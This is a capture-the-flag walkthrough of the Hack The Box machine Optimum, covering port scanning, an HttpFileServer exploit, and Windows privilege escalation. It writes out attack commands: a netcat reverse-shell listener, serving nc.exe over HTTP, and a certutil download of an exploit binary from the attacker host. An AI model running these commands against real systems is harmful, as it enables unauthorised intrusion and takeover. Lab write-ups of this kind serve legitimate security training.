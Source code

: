# Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)

```
searchsploit httpfileserver

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)


## Exploitation & Gaining Access
```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


## Privilege Escalation
```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-08-mssb.xls --systeminfo systeminfo.txt

# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/32eb7f0c-5bb7-41b6-8d33-dfb5f11445a1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a43d3006-c5f2-4141-9446-154e5c8169ea)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c48e9398-e5c2-4853-9bd8-1b9d0596b083)

```
# On the kali attack vm:
searchsploit 41020

searchsploit -m 41020

wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe

sudo python3 -m http.server

# On the target machine:
cd c:\Users\Public\Downloads

certutil.exe -urlcache -split -f "http://10.10.14.24:8000/41020.exe" 41020.exe




```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d51b7047-a7a0-4610-90a0-f28a43dbaa68)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e74bacef-2391-44c1-ad06-face08e28e93)






# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ x


## CVE Scripting
+ x


## Tools
+ x


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://youtu.be/rNmF991BSTE?t=40
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1
+ **xlrd.biffh.XLRDError: Excel xlsx file; not supported:**
  + https://stackoverflow.com/questions/65254535/xlrd-biffh-xlrderror-excel-xlsx-file-not-supported


## For More
- x
